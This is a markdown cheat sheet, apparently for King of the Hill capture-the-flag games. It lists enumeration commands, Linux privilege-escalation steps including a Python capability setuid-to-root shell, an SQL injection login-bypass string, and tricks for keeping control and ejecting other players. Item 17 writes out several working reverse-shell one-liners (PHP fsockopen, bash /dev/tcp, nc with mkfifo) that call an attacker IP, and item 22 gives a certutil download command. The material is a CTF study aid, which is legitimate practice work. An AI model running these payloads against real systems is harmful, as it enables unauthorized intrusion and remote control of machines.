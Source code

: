 # KOTH

1. `enum4linux` - smb service enumeration

2. `ps fauxwww` you can see the all the users subprocess and cut them out
Also `ps aux | grep pts` and start killing sessions ;)

3. `jobs` and `ps ef` can make you see the all the processes

4. `tmux -S session/default` - priv esclation from tmux

5. Basic methodology for privilage esc 
	First check for `SUID bit files` - `find / -perm /4000 2>/dev/null`
	Second check for `cap files`  - `getcap -r / 2>dev/null --- cap files`
	Thrid check for `linpeas.sh`
	Fourth check fir `lse.sh`
	Exploiting through capabilities:
	Python:
	```
	getcap -r / 2>/dev/null - check if other than network any have cap
	pwd
	ls -al python3
	./python3 \-c 'import os; os.setuid(0); os.system("/bin/bash")'
	BOOM
	```
	

6. Make files immutable and unimmutable - `chattr -i [file]` or `chattr -a [file]`

7. To be a permanent king make a infinite loop of one sec rest 
```
while :
do
echo "x3rz" > king.txt
sleep 1
done
```
8. Found mysql service? try `mysql -h [ip] -u root -p` and default creds as password or root

9. Enough of enumeration then try last time 
 `gobuster dir -u [url] -w [wordlist] -x .db,.txt,.bak` and more extensions.

10. SQLi for this use or try always `admin' or '1=1' -- -` other use sqlmap with burp

11. Start the nmap and gobuster instantly after machine boots up

12. Use Rustscan instead of nmap. or 1st rust scan for quick port identification and then nmap for details.

13. Instead of making immutable the file also make use of `+a` which only allows appending the string.

14. If you see any binary missing then upload staticcally linked  binaries 
	**Statically-linked** files are 'locked' to the executable at link time so they never change. A **dynamically linked** file referenced by an executable can change just by replacing the file on the disk. This allows updates to functionality without having to re-link the code; the loader re-links every time you run it.
	[online available binaries](https://busybox.net/downloads/binaries/1.31.0-i686-uclibc/)
	or 
	[Andrew-d static binaries](http://github.com/andrew-d/static-binaries)

15. clobber:
	no one can add any string using `>` 
	basic command : `set -o noclobber [file]`

16. Use `ssh -t` to hide your session from tty.

17. Command panel then try this payload or in case of **vulnerable parameter**:  ``php -r '$sock=fsockopen("{IP}",{PORT}});exec("/bin/sh -i <&3 >&3 2>&3");'``
or 
`bash -c 'bash -i >& /dev/tcp/10.9.1.210/1337 0>&1'`
or
```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```
or
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.1.210 1337 >/tmp/f
```

18. Check for kernel version
19. **sudo versions < 1.8.28 are vulnerable to CVE-2019-14287**
20.  Add IPs to block list by iptables
`iptables -A INPUT -s 10.10.10.9 -j DROP`
21. Write message to other users pts
`write [USER] pts/[number]`
22. Windows file transfer:
`certutil -urlcache -split -f [url]`
23. [Must](https://medium.com/bugbountywriteup/things-i-learned-after-rooting-25-hack-the-box-machines-e9eada4ea6ca)